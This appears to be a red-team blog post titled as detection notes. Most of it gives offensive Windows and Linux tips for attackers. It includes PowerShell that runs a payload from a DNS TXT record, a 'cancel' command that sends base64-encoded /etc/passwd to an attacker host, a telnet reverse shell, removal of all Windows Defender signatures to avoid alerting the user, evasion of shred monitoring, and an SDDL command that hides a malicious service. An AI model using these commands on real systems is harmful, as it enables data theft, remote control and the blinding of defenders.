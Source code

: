 ```yaml
---
layout: post
title:  "Red Team quick detection notes"
date:   2020-09-20 16:46:24 +0200
categories: [redteam, R&D, usecases]
---
```


# Windows

## Malicious Payload in DNS Txt
Attacker can put malicious payload in DNS TXT record content of domain. So, watch out for:

```bash
powershell . (nslookup -q=txt some.domain.com)[-1]
```


---
## Curl with cancel
Except curl, wget and nc commands, attacker can use ‘cancel’ to exfiltrate data 

```bash
Attacker machine:
nc -nlvp 18110 

Victim machine:
cancel -u "$(cat /etc/passwd | base64)" -h <ip>:<port>
```

---

---

## RCE without python Bash 
After successful RCE inside container, but the container doesn't have BASH, Netcat, Python, or any of your normal revshell helpers, attacker can also use telnet

```bash
mkfifo /tmp/cth; sh -i 2>&1 </tmp/cth | telnet <atkIP> 8443 >/tmp/cth; rm /tmp/cth
```

---

---
## Explorer.exe for code Execution
Example: using explorer.exe for code execution

```powershell

explorer.exe /root,"C:\Windows\System32\calc.exe"
```
![new processes](/assets/img/red-teams-notes/pm1.png)

![child parent](/assets/img/red-teams-notes/pm2.png)

![Procmon](/assets/img/red-teams-notes/pm3.png)


---

## Windows Defender signature removal  
A bit messy, but if Windows Defender is causing you a big headache, rather than disabling it (which alerts the user), you should just neuter it by deleting all the signatures:

```powershell
"%Program Files%\Windows Defender\MpCmdRun.exe" -RemoveDefinitions -All
```

---

---

Red Teamers: those pesky security vendors--like VirusTotal, PaloAlto, and Fortinet--will poke at your infrastructure and evaluate your malicious links, potentially flagging them. Use this .htaccess file to block the common ones outright: https://gist.github.com/curi0usJack/971385e8334e189d93a6cb4671238b10

---

---
## Delete file with shred
Just deleting files is not enough. To really remove them, use shred.

```bash
shred -z cthulhu.txt
```

If shred command is in monitoring for generating alert, the shred command may be caught, you can do this:

```bash
FN=cthulhu.txt; dd bs=1k count="du -sk \\"${FN}\\" | cut -f1" if=/dev/urandom >"${FN}"; rm -f "${FN}"
```

---

---
## Hiding Windows services
This is a really nasty tip: Windows' sc.exe allows you to manually assign service permissions with SDDL syntax. This allows you to essentially make your service invisible unless defenders already know the service name.

Services.exe, Get-Service, sc.exe, all of these fail.

Hiding Windows services:

```powershell
sc sdset evilsvc "D:(D;;DCLCWPDTSD;;;IU)(D;;DCLCWPDTSD;;;SU)(D;;DCLCWPDTSD;;;BA)(A;;CCLCSWLOCRRC;;;IU)(A;;CCLCSWLOCRRC;;;SU)(A;;CCLCSWRPWPDTLO
```

